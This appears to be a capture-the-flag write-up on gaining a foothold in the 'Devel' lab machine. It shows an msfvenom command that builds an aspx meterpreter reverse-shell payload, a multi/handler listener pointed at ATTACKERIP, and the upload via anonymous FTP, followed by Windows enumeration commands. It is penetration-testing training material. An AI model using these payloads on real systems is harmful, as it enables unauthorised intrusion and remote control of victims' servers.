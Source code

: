 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`
